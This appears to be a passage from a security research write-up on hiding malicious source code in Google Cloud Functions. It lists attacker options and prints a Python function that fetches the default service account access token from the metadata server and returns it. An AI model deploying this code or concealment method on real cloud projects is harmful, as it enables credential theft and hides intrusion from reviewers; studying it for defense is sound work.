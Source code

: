 >Note: Even if you upload the source code Locally or via Cloud Repository, it will still be saved in the Cloud Storage Bucket.

Here's a high level overview of the Source Code Concealment process.

<p><img src="https://drive.google.com/uc?id=1aAQCgvDsXLDkJW_TY12xLwLXCtbWd14j"></p>

If an attacker wants to abuse Cloud Function for malicious purpose be it Privilege Escalation, Persistence, Impact etc. they typically have three primary options to choose from:
- Deploy a Cloud Function.
- Update the Cloud Function.
- Delete a Cloud Function.

The primary objective of Deleting a Cloud Function is to create an [Impact](https://attack.mitre.org/tactics/TA0040/) rather than facilitate something important like Privilege Escalation or Persistence etc, moreover there is no point in concealing source code for the function we are going to delete. Thus, we will concentrate on concealing the source code for remaining two strategies:
- Deploy a Cloud Function.
- Update the Cloud Function.

## Way I - Deploy a Cloud Function in Google Cloud Platform

Before you Deploy a Cloud Function make sure you have: 

1. The necessary APIs and Permissions required for Deploying a Cloud Function (gCloud or Cloud Function API (gRPC & REST)).

    - [APIs and Permissions required for Deploying Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#apis-and-permissions-required-for-deploying-a-cloud-function-via-gcloud)

    - [APIs and Permissions required for Deploying Cloud Function via Cloud Function API (gRPC & REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#apis-and-permissions-required-for-deploying-a-cloud-function-via-cloud-function-api-grpc--rest)

2. The Malicious source code and Non-malicious source code in place.

#### In our case the Malicious and Non-malicious source code are given below:

```python
#Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    metadata_server_url = "http://169.254.169.254/computeMetadata/v1"
    metadata_key_url = f"{metadata_server_url}/instance/service-accounts/default/token"
    metadata_headers = {"Metadata-Flavor": "Google"}
    response = requests.get(metadata_key_url, headers=metadata_headers)
    access_token = response.text
    return access_token
```
